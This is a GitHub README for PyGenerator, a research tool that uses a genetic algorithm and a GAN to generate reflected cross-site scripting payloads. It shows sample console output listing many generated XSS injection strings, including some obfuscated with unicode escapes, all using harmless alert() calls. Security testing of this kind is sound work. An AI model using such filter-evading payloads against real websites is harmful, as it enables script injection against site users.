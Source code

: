 ## PyGenerator using Genetic Algorithm and Generative Adversarial Networks.

It's tool (PyGenerator) can generate injection codes for web app vulnerabilities.  
There are many different types of web app vulnerabilities, but PyGenerator has targeted reflected XSS in this version.  
ex) `<iframe/onload=alert();>size=<command`, `<video><source onerror=javascript:alert();>kind=`

[more info](http://www.mbsd.jp/blog/takaesu_index.html)

## Description

PyGenerator consists of two algorithms that Genetic Algorithm (GA) and Generative Adversarial Networks (GAN).  
The injection codes are generated in two steps.  

1. Generation of injection codes using GA.
2. Augment injection codes using GAN.

#### 1. Generation of injection codes using GA.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv).  
Gen list is minimum components of HTML and JavaScript.  
ex) <img/, src=, xxx, onerror=, alert();, />, etc.  

And, you execute `ga_main.py` as the following.  

```
Generator>python ga_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

Launched : chrome 60.0.3112.90
-----1 generation result-----
  Min:-2.3
  Max:-0.4
  Avg:-0.996
-----2 generation result-----
  Min:-2.2
  Max:-0.5
  Avg:-0.964
-----3 generation result-----
  Min:-1.8
  Max:-0.5
  Avg:-0.975

・・・

-----444 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.779
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>onerror=alert(); : [149, 2, 180, 206, 196]
-----445 generation result-----
  Min:-1.8
  Max:0.1
  Avg:-0.828
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
-----446 generation result-----
  Min:-1.8
  Max:-0.4
  Avg:-0.826
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
chrome 60.0.3112.90 : block : bgcolor=<video><source onerror=javascript:window.onerror=alert();>http-equiv= : [149, 2, 180, 206, 164]
・・・
```
In this result, a few injection codes are generated by GA.  
Injection codes are represented using combination of gene numbers (5 dimensional vector).  
ex) <149, 2, 180, 206, 164>,  

#### 2. Augment injection codes using GAN.
You must prepare the gene list (ex. [gen list](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/gene/gene_list.csv) and train data generated by GA (ex. [train data](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/signature/xss_list.csv).  

And, you execute `gan_main.py` as the following.  

```
Generator>python gan_main.py
Using Theano backend.
Using gpu device 0: GeForce GTX 965M (CNMeM is disabled, cuDNN 5110)

(14176L, 'train samples')
('Number of batches:', 443)
epoch: 0, batch: 0, g_loss: 0.704642, d_loss: 0.711084
[ 115.  118.  103.  112.  100.] : </label></meter></track></keygen></font>
[ 124.   99.  127.  106.  101.] : </progress><font/</select></button><track 
[ 112.   91.  107.  106.   90.] : </keygen></ins><fieldset </button><ins/
[ 115.  102.  142.   78.  125.] : </label><track/type="text/x-scriptlet" <meta/<select 
[ 121.  106.  107.  111.   95.] : </output></button><fieldset <keygen/<basefont 

・・・

epoch: 79, batch: 117, g_loss: 2.015308, d_loss: 0.561763
[   0.  182.    1.    5.   21.] : <script>onerror=\u0061lert();</script><isindex/<iframe/
[   0.  191.    1.    3.   14.] : <script>onload=alert();</script><video><source/<img/
[   0.  193.    1.    3.   12.] : <script>onmouseover=alert();</script><video><source/<option/
[   0.  181.    1.    3.   22.] : <script>onerror=javascript:alert();</script><video><source/</iframe>
[   0.  183.    2.    5.   28.] : <script>onerror=al\u0065rt();<video><source <isindex/<svg/
・・・
```
In this result, many injection codes are generated by GAN.  

## Requirement libraries
* pandas
* requests
* selenium

## Operation check environment
* Python 2.7.12 (Anaconda2)
* pandas 0.18.1
* requests 2.13.0
* selenium 3.4.3

## Inquiry
[takaesu235@gmail.com](<takaesu235@gmail.com>)

## Licence

[Apache License 2.0](https://github.com/13o-bbr-bbq/machine_learning_security/blob/master/Generator/LICENSE)

## Author

[Isao Takaesu](https://github.com/13o-bbr-bbq)
